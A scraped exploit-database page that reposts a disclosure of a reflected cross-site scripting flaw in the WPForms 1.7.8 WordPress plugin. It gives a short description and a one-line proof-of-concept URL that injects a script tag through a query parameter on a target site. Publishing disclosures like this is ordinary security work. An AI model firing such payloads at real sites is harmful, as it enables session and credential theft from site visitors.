 ```yaml
---
title: WordPress WPForms 1.7.8 Cross Site Scripting exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:171599&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-03-31
fetch_date: 2025-10-04T11:11:12.748240
---
```


# WordPress WPForms 1.7.8 Cross Site Scripting exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for WordPress WPForms 1.7.8 Cross Site Scripting

2023-03-30 | CVSS 6.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:171599
# Exploit Title: WPForms 1.7.8 - Cross-Site Scripting (XSS)
# Date: 2022-12-05
# Author: Milad karimi
# Software Link: https://wordpress.org/plugins/wpforms-lite
# Version: 1.7.8
# Tested on: Windows 10
# CVE: N/A

1. Description:
This plugin creates a WPForms from any post types. The slider import search feature and tab parameter via plugin settings are vulnerable to reflected cross-site scripting.

2. Proof of Concept:
https://$target/ListTable.php?foobar=<script>alert("Ex3ptionaL")</script>
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)